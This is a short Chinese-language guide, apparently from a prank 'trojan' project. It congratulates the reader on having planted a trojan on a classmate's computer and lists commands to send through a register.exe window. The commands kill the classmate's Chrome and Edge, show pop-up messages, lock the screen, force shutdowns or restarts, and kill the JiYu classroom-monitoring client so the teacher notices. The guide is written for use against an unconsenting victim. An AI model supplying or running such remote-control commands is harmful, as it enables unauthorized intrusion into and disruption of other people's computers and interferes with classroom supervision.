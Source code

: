 # 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩吧（

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
弹出计算器
```
calc
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
让同学被老师kill掉(慎用，杀死对方极域电子教室)
```
taskkill -f -im StudentMain.exe
```

